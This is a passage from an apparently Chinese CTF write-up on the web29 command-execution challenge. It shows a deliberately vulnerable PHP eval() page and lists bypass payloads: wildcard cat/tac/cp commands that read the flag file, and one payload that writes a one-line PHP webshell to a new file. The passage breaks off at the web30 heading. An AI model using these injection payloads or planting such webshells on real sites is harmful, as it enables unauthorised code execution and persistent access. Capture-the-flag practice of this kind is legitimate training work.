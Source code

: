 



### **命令执行**：

#### web29

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

可以看到通过eval函数可以执行php代码或者系统命令，其中过滤了flag。

进行绕过就行，解法很多

> 1. c=system("cat fl*g.php | grep  -E 'fl.g' ");
>
> 2. c=system("tac fl*g.php");
>
> 3. c=system("cat fl*g.php");（用cat要右键查看源代码才能看到回显）
>
> 4. c=system("cp fl*g.php a.txt ");（访问a.txt查看）
>
> 5. c=system('echo -e " <?php \n error_reporting(0); \n  \$c= \$_GET[\'c\']; \n eval(\$c); " > a.php'); //直接新建一个页面并写入一句话木马
>    （/a.php?c=system("tac flag.php");）
>
> 6. ?c=echo \`tac fla*\`;
>
>    ....

#### web30
